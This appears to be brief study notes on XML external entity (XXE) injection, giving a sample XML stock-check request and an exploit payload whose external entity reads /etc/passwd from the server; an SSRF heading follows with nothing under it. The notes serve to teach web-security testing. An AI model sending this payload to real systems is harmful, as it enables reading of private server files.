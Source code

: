 # Types
## Exploiting XXE to retrieve files
perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem.
* Example: <?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
* exploit: `<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>`

## Exploiting XXE to perform SSRF attacks
